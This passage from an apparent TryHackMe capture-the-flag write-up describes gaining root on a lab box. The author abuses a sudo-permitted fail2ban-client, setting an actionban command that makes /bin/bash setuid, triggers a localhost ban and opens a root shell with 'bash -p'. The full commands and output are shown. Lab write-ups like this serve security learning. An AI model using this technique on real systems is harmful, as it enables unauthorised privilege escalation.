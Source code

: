 set &lt;JAIL&gt; action &lt;ACT&gt; actionban &lt;CMD&gt;  sets the ban command &lt;CMD&gt; of the action &lt;ACT&gt; for &lt;JAIL&gt;
</pre>
<p>Knowing this, I crafted a payload which should add suid permissions to the /bin/bash binary as follows:</p>
<pre>
asterisk@ip-10-10-109-160:/var/www/html/mbilling/lib/icepay$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport  actionban "chmod +s /bin/bash" chmod +s /bin/bash
</pre>
<p>For this to execute, we need to make sure a ban happens. Therefore, I banned localhost from ssh using the following command:</p>
<pre>
asterisk@ip-10-10-109-160:/var/www/html/mbilling/lib/icepay$ sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
</pre>
<p>As we can see, it successfully executed as the /bin/bash binary has the suid permission set (in case you did not know, suid allows the file to be executed as its owner (here root)):</p>
<pre>
asterisk@ip-10-10-109-160:/var/www/html/mbilling/lib/icepay$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 18 13:47 /bin/bash
</pre>
<p>To gain a root shell, run:</p>
<pre>
asterisk@ip-10-10-109-160:/var/www/html/mbilling/lib/icepay$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# ls /root
filename  passwordMysql.log  root.txt
</pre>
<p>Congratulations, you have successfully rooted this box!</p>
<h2>Final thoughts</h2>
<p>In general, this was a fun and easy box! It was also my first Tryhackme box. The most difficult part of the box was the privilege escalation as I needed to do quite some research before finding how to gain a root shell using fail2ban.</p>
<a href="/">Go to the Home Page</a>